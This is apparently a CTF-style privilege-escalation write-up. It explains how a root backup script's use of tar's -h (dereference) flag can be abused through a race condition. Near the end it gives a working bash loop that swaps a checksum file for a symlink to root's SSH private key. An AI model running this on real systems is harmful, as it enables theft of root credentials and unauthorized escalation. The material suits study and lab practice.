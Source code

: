 ```yaml
---
description: >-
  Tar Symlink Exploitation (Linux)
title: Tar Symlink Exploitation (Linux)              # Add title here
date: 2022-08-24 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Linux - Tar Symlink Exploitation]                     # Change Templates to Writeup
tags: [linux privesc, tar, symlink exploitation]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

#### Abusing dereference
Reviewing the code inside we get this:
```bash
#!/bin/bash
file=`date +%N`
/usr/bin/rm -rf /opt/backups/*
/usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/
sha1sum "/opt/backups/$file.tar" | cut -d ' ' -f1 > /opt/backups/checksum
sleep 5
check_file=`date +%N`
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
/usr/bin/rm -rf /opt/backups/*
```

As we can notice there is a stranger flag within the latest tar command which is -h:

```bash
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
```

After reading the manual for tar, we can see that this flag is used to follow symlink and dump the file that is pointing to:

```bash
			 --exclude-vcs-ignores
		      Exclude files that match patterns read from VCS-specific ignore files.
					Supported  files  are:  .cvsignore,  .gitignore,
              .bzrignore, and .hgignore.

       -h, --dereference
              Follow symlinks; archive and dump the files they point to.

       --hard-dereference
              Follow hard links; archive and dump the files they refer to.
```

With this in mind then we can start a race condition to delete the checksum file which is being generated and then insert our symlink pointing to an interesting file that allow us to escalate privileges (root id_rsa for example):

First we need to create a script that checks when the file checksum is generated, remove it and create our symlink instead of it pointing to the id_rsa from root, exactly like this:

```bash
#!/bin/bash

while true
do
        if [ -e /opt/backups/checksum ]
        then
                rm -rf /opt/backups/checksum
                ln -s /root/.ssh/id_rsa /opt/backups/checksum
                break;
        fi
done
```
Examples:
[Epsilon](https://shuciran.github.io/posts/Epsilon/#fnref:tar-symlink)

